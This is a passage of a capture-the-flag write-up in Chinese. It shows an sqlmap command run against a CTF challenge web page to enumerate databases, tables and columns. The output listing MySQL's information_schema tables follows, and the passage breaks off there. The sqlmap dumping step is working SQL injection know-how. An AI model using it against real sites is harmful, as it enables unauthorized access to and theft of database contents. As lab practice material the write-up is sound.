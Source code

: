 
## Dump All Data!

`sqlmap -u "http://isip-ctf.tyc4d.tw:8056/index.php" --tables --columns`
先用sqlmap搜尋到底有什麼database以及table，卻發現要`You are advised to rerun with '--forms --crawl=2'`
之後就知道總共有這些了

```
Database: information_schema
[59 tables]
+----------------------------------------------------+
| CHARACTER_SETS                                     |
| COLLATIONS                                         |
| COLLATION_CHARACTER_SET_APPLICABILITY              |
| COLUMN_PRIVILEGES                                  |
| FILES                                              |
| GLOBAL_STATUS                                      |
| GLOBAL_VARIABLES                                   |
| INNODB_BUFFER_PAGE                                 |
| INNODB_BUFFER_PAGE_LRU                             |
| INNODB_BUFFER_POOL_STATS                           |
| INNODB_CMP                                         |
| INNODB_CMPMEM                                      |
| INNODB_CMPMEM_RESET                                |
| INNODB_CMP_PER_INDEX                               |
| INNODB_CMP_PER_INDEX_RESET                         |
| INNODB_CMP_RESET                                   |
| INNODB_FT_BEING_DELETED                            |
| INNODB_FT_CONFIG                                   |
| INNODB_FT_DEFAULT_STOPWORD                         |
| INNODB_FT_DELETED                                  |
| INNODB_FT_INDEX_CACHE                              |
| INNODB_FT_INDEX_TABLE                              |
| INNODB_LOCKS                                       |
| INNODB_LOCK_WAITS                                  |
| INNODB_METRICS                                     |
| INNODB_SYS_COLUMNS                                 |
| INNODB_SYS_DATAFILES                               |
| INNODB_SYS_FIELDS                                  |
| INNODB_SYS_FOREIGN                                 |
| INNODB_SYS_FOREIGN_COLS                            |
| INNODB_SYS_INDEXES                                 |
| INNODB_SYS_TABLES                                  |
| INNODB_SYS_TABLESPACES                             |
| INNODB_SYS_TABLESTATS                              |
| INNODB_TRX                                         |
| KEY_COLUMN_USAGE                                   |
| OPTIMIZER_TRACE                                    |
| PARAMETERS                                         |
| PROFILING                                          |
| REFERENTIAL_CONSTRAINTS                            |
| ROUTINES                                           |
| SCHEMATA                                           |
| SCHEMA_PRIVILEGES                                  |
| SESSION_STATUS                                     |
| SESSION_VARIABLES                                  |
| STATISTICS                                         |
| TABLESPACES                                        |
| TABLE_CONSTRAINTS                                  |
| TABLE_PRIVILEGES                                   |
| USER_PRIVILEGES                                    |
| VIEWS                                              |
| COLUMNS                                            |
| ENGINES                                            |
```